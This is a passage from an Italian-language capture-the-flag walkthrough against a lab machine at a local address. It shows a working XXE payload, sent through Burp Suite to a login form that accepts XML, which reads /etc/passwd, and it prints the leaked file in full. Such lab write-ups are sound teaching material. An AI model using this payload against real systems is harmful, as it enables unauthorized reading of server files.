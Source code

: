Proviamola sul target e voila'!
http://192.168.1.140/w4n770p14y494m3/

Un portale di login!



![Schermata da 2019-08-24 15-00-35](https://user-images.githubusercontent.com/54471416/63647532-92de3e80-c6f0-11e9-8161-006e4ea2a3a6.png)



Da uno sguardo agli header http troviamo queste utili informazioni :


Apache/2.4.7 (Ubuntu)
PHP/5.5.9-1ubuntu4.29


Notiamo oltretutto che il corpo della post inviata al server contiene un testo di tipo xml contenente i campi email e password che troviamo nella form della pagina di login.
Potremmo a questo punto verificare se la pagina in questione e' vulnerabile a un attacco di tipo XXE.
Da Burp Suite, modifichiamo il corpo del pacchetto http in formato xml, in qualche cosa del genere :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT email ANY >
<!ELEMENT password ANY >
<!ENTITY xxe SYSTEM "/etc/passwd">
]>

<root>
   <email>&xxe;</email>
   <password>aaa</password>
</root>
```

et voila!
Otteniamo questa risposta :

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
libuuid:x:100:101::/var/lib/libuuid: 
syslog:x:101:104::/home/syslog:/bin/false 
messagebus:x:102:106::/var/run/dbus:/bin/false 
landscape:x:103:109::/var/lib/landscape:/bin/false 
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin 
jigsaw:x:1000:1000:,,,:/home/jigsaw:/bin/bash
```
